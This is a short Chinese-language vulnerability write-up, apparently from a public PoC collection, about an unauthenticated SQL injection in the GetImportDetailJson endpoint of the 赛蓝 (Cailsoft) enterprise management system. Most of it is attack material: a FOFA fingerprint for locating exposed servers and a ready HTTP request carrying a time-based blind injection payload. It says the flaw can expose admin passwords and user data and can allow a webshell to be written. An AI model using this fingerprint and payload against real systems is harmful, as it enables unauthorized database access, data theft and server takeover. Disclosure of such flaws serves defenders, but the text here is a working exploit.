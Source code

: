 # 赛蓝企业管理系统GetImportDetailJson存在SQL注入漏洞

赛蓝企业管理系统 **GetImportDetailJson**接口处SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
body="www.cailsoft.com" || body="赛蓝企业管理系统"
```

## poc

```java
GET /BaseModule/ExcelImport/GetImportDetailJson?ImportId=1%27%3bWAITFOR+DELAY+%270%3a0%3a5%27--&IsShow=1 HTTP/1.1
Host: {{Hostname}}
```


